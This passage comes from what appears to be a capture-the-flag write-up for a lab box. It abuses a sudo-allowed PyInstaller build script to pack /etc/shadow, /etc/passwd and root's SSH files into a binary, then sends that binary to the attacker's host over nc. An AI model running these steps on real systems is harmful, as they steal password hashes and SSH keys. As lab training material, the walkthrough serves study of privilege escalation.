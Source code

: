 

#### Modify Spec

I don't have permissions to edit this file, but I'll copy it to another
file, and edit it to include some `datas`:



        ...[snip]...
        datas=[('/etc/shadow', '.'), ('/etc/passwd', '.'), ('/root/*', '.'), ('/root/.ssh/*', '.')],
        ...[snip]...



Now I'll run that:



    tkeller@socket:~$ sudo build-installer.sh build /tmp/0xdf.spec 
    267 INFO: PyInstaller: 5.6.2
    ...[snip]...



It runs without issue.

#### Exfil

I'll exfil the binary back to my host with `nc`:



    tkeller@socket:~$ cat /opt/shared/dist/qreader | nc 10.10.14.6 443



At my host:



    oxdf@hacky$ nc -lnvp 443 > modfile
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.206 40194
    ^C



This just hangs, so after a few seconds, I'll kill it, and check the
hashes of each:



    tkeller@socket:/dev/shm$ md5sum qreader 
    acd4d1b688fa7ba05f98741d89c0ab43  qreader





    oxdf@hacky$ md5sum modfile 
    acd4d1b688fa7ba05f98741d89c0ab43  modfile



#### Extract

I'll use `pyinstxtractor` to pull out the files:
